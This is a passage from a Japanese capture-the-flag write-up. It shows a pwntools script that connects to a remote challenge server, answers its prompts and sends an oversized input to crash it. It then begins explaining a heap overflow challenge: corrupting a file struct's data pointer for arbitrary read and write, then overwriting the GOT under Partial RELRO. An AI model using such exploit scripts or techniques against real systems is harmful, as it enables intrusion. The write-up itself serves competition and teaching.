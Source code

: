 適当におおきいの突っ込んだら答えがでてきた。なにこれ[^1]。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools

context.log_level = 'debug'

p = remote('210.146.64.35', 31338)
p.recvuntil('Kawa? : ')
p.sendline('Yama')
p.recvuntil('So then next? : ')
p.sendline('too')
p.recvuntil('-9 0 0 18 -10 8 159 194 220 212 204 202? : ')
p.sendline('KansaiTanaka')
p.recvuntil('aa1bf8cae599b19366a8bd4b87ddd327? : ')
p.sendline('Zach')
p.recvuntil('And the rest? : ')
p.send('x' * 2000)

p.interactive()
```

## 143  攻撃術  craSH 2

与えられるソースをよく読めばそう難しくはない。
heap上のoverflowであるがmetadataを操作する必要はほぼなく、64bitであることも特に効いてこない。

### 解説

#### a

`141 攻撃術 craSH`の続きである。
heap上でのoverflowを使った攻撃となる。

heapに乗るdataとしては主に以下の構造体と`char *data`の中身である。`char *`である`file.data`を書き換えれば、任意のアドレスへの読み書きが可能になる。
一旦これができたとして話を続ける。

``` c
struct file {
    size_t len;
    char *data;
};

struct node {
    char *key;
    struct file *val;
    struct node *next;
};
```

防御機構に関して、`Partial RELRO`なのでgotへの書き込みは可能であるので、これを使う。ただし`NX enabled`が立っているのでheap上にshellcodeを置いても機能しない。


[^1]: かなり偶然上手くいっただけっぽい。